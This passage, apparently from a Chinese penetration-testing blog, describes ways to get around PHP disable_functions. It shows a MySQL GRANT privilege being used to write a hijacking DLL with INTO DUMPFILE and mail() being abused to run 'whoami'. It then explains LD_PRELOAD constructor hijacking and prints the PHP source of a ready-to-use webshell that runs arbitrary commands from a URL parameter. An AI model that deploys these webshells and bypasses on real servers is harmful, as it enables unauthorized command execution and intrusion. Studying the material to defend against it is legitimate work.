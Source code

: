 此时我突然发现php连接的mysql的账号虽然不是root，但是有grant权限。。。

于是给自己grant了全部权限之后，我们就可以使用dumpfile的方式写入文件夹了，类似

```sql
select unhex(‘xxxxxx’) into dumpfile 'D:\\UPUPW_AP5.4\\sendmail\\wsock32.dll'
```

这时候你会问为什么不用udf呢？

因为udf需要写入plugin目录，但是这个目录默认情况下不存在。

你会说可以用$INDEX_ALLOCATION啊，但我在本机测试并不行，远程也不行，创建文件夹本地直接提示Access denied，但是却可以创建文件。另外我本地和远程都是NTFS。

这里需要把自己编译的dll和原版wsock32.dll都写进去。

最后使用如下php代码即可执行命令：

```php
<?php
mail('','','','','-c whoami -o D:\\UPUPW_AP5.4\\htdocs\\1.txt');
echo file_get_contents('1.txt');
unlink('1.txt');
?>
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3z6hgejbj20a602yjra.jpg)

 

## 三、无 sendmail 环境下突破 disable_functions 执行命令

遇到用 disable_functions 指示器禁用了所有命令执行函数的站点，借助环境变量 LD_PRELOAD 劫持 /usr/sbin/sendmail 中的系统函数 getuid()，从而不借助 PHP 的各类命令执行函数（如 exec()、system()、dl() 等等）执行系统命令，屡试不爽。
最近实战中遇到一个站，同样无法执行命令

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3zeu3wyyj20sb0f4ad4.jpg)

disable_functions 禁用命令执行函数

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3zfop9nbj20u9061jtn.jpg)

同时，还禁用了 sendmail，导致之前的惯用法失效：

琢磨了几天，找到一种不依赖 sendmail 的手法：GCC 支持 C 语言规范扩展 __attribute__((constructor))，让我可以劫持共享对象（或者说，拦劫加载共享对象这一动作），不用劫持某一具体函数，实现执行系统命令。

开箱即用的 webshell 位于 [https://github.com/yangyangwithg ... func_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)，包括两个关键文件，bypass_disablefunc.php 和 bypass_disablefunc_x64.so。想法把他两上传至目标，访问`http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so`

即可执行系统命令：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3zhfisppj20z9046di4.jpg)

github: `yangyangwithgnu`

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
```